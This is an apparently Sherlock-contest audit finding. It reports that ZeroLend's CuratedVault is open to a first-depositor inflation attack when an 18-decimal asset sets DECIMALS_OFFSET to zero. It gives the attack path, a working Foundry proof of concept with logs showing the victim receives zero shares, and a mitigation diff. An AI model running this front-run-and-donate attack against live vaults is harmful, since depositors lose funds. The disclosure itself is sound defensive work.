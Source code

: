 Careful Fleece Pike

Medium

# `CuratedVault` is vulnerable to an inflation attack when 18 decimals token is used as an asset

### Summary

`CuratedVault`'s `DECIMALS_OFFSET` is set to zero when 18 decimals token is used as an asset will cause the vault to be vulnerable to an inflation attack.

### Root Cause

ERC4626's decimals offset is a mitigation for inflation attack, but when it is set to zero, a griefing inflation attack still possible.

`CuratedVault`'s `DECIMALS_OFFSET` is set to zero when 18 decimals token is used as an asset

https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/vaults/CuratedVault.sol#L76

```solidity
  function initialize(
    address[] memory _admins,
    address[] memory _curators,
    address[] memory _guardians,
    address[] memory _allocators,
    uint256 _initialTimelock,
    address _asset,
    string memory _name,
    string memory _symbol
  ) external initializer {
    __ERC20_init(_name, _symbol);
    __ERC20Permit_init(_name);
    __ERC4626_init(IERC20Upgradeable(_asset));
    __Multicall_init();
    __CuratedVaultRoles_init(_admins, _curators, _guardians, _allocators);

>>  DECIMALS_OFFSET = uint8(uint256(18).zeroFloorSub(IERC20Metadata(_asset).decimals()));
    _checkTimelockBounds(_initialTimelock);
    _setTimelock(_initialTimelock);

    positionId = keccak256(abi.encodePacked(address(this), 'index', uint256(0)));
  }
```

### Internal pre-conditions

18 decimals token is used as an asset in the vault.

### External pre-conditions

_No response_

### Attack Path

1. The first depositor deposits `X` assets to the vault
2. The attacker front-run deposits `1` assets to the vault, and donates `2*X - 1` assets to the vault.

As a result, the first depositor loses `X` assets.

### Impact

- The first depositor loses `X` assets
- The attacker loses `1/2*X` assets

This attack is a griefing attack, but the loss of the user is greater than the loss of the attacker.

### PoC
Run command: `forge test --match-path test/PoC/PoC.t.sol -vv`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from 'lib/forge-std/src/Test.sol';
import '../forge/core/vaults/helpers/IntegrationVaultTest.sol';

contract PoC is IntegrationVaultTest {
  address alice = makeAddr('alice');
  address attacker = makeAddr('attacker');

  uint256 attackerBalanceBefore = 10 ether;
  uint256 depositAmount = 1 ether;

  function setUp() public {
    _setUpVault();
    _setCap(allMarkets[0], CAP);

    vm.prank(alice);
    loanToken.approve(address(vault), type(uint256).max);
    
    vm.startPrank(attacker);
    loanToken.approve(address(vault), type(uint256).max);
    loanToken.approve(address(allMarkets[0]), type(uint256).max);
    vm.stopPrank();

    loanToken.mint(alice, depositAmount);
    loanToken.mint(attacker, attackerBalanceBefore);
  }

  function testPoC() public {
    vm.startPrank(attacker);
    vault.deposit(1, attacker);
    allMarkets[0].supplySimple(address(loanToken), address(vault), 2 * depositAmount - 1, 0);
    allMarkets[0].forceUpdateReserve(address(loanToken));
    vm.stopPrank();

    vm.prank(alice);
    console.log("Alice's shares: %e", vault.deposit(depositAmount, alice));

    vm.prank(attacker);
    vault.redeem(1, attacker, attacker);

    console.log("Attacker's loss: %e", attackerBalanceBefore - loanToken.balanceOf(attacker));
  }
}
```

Logs:
```bash
  Alice's shares: 0e0
  Attacker's loss: 5e17
```

### Mitigation

Hardcode the `DECIMALS_OFFSET`

```diff
  function initialize(
    address[] memory _admins,
    address[] memory _curators,
    address[] memory _guardians,
    address[] memory _allocators,
    uint256 _initialTimelock,
    address _asset,
    string memory _name,
    string memory _symbol
  ) external initializer {
    __ERC20_init(_name, _symbol);
    __ERC20Permit_init(_name);
    __ERC4626_init(IERC20Upgradeable(_asset));
    __Multicall_init();
    __CuratedVaultRoles_init(_admins, _curators, _guardians, _allocators);

-   DECIMALS_OFFSET = uint8(uint256(18).zeroFloorSub(IERC20Metadata(_asset).decimals()));
+   DECIMALS_OFFSET = 6;
    _checkTimelockBounds(_initialTimelock);
    _setTimelock(_initialTimelock);

    positionId = keccak256(abi.encodePacked(address(this), 'index', uint256(0)));
  }
```